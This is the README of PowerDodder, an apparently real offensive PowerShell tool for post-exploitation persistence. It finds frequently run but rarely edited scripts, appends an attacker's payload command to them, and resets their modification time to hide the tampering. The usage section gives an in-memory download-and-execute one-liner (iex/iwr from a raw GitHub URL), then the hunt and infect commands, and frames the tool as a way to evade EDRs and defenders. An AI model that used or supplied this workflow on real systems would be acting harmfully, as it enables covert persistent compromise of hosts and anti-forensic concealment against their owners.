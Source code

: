 # Dodder

**PowerDodder** is a post-exploitation persistence utility designed to stealthily embed execution commands into existing script files on the host. By leveraging files that are frequently accessed but rarely modified, it targets high-likelihood execution vectors with minimal detection risk.

## 🧠 Background

Traditional persistence methods (e.g., Registry `Run` keys, scheduled tasks) are often monitored or flagged by EDRs and blue teams. **Dodder** takes a novel approach:

- It hunts for existing script files on disk (`.ps1`, `.bat`,`.cmd`, `.vbs`, `.js`).
- It prioritizes those that:
  - **Have been accessed recently** (indicating they're being executed often).
  - **Haven’t been modified recently** (suggesting they're not actively edited).
- It lets you choose the target script(s), and then it appends a payload-spawning command using a context-appropriate syntax (PowerShell, VBScript, JScript, etc.).

This allows for low-noise persistence, hitching a ride on legitimate execution paths.

## 🛠️ Usage

### 1. Load the script

```
iex (iwr https://raw.githubusercontent.com/itaymigdal/PowerDodder/refs/heads/main/PowerDodder.ps1) 
```

### 2. Run a Hunt

Scans predefined folders (`C:\Users\`, `C:\Program Files\`, `C:\Program Files (x86)\`,`C:\ProgramData\`) for promising script files.
```
DodderHunt
```
You can also target a specific folder:
```
DodderHunt -FolderPath "C:\CustomPath"
```
**Optional params:**

-LastAccessTimeThreshold: default is 7 days.

-LastModifyTimeThreshold: default is 3 months.

You can set different thresholds like that:
```
$DifferentModifyThreshold = (get-date).AddMonths(-4)
$DifferentAccessThreshold = (get-date).AddDays(-20)
DodderHunt -LastAccessTimeThreshold $DifferentAccessThreshold -LastModifyTimeThreshold $DifferentModifyThreshold
```

### 3. Infect a script
```
DodderInfect -ID <CandidateID> -PersistCommand <ExecutionCommand>
```
This will:
- Create the appended line of your command based on the relevant template.
- Modify the file by appending the persistence command.
- Restore the original script LastWriteTime attribute to hide the modification.
- Move the infected script to the Infected list.

### 4. Helpers

- DodderShow: Lists found candidates and already-infected files.
- DodderClearCandidates: Empties the current candidates list (useful before rescanning).


## 📚 Name Origin
The name Dodder comes from a parasitic vine that attaches itself to host plants, slowly feeding off them without killing them — much like this tool latches onto host scripts for persistent execution.

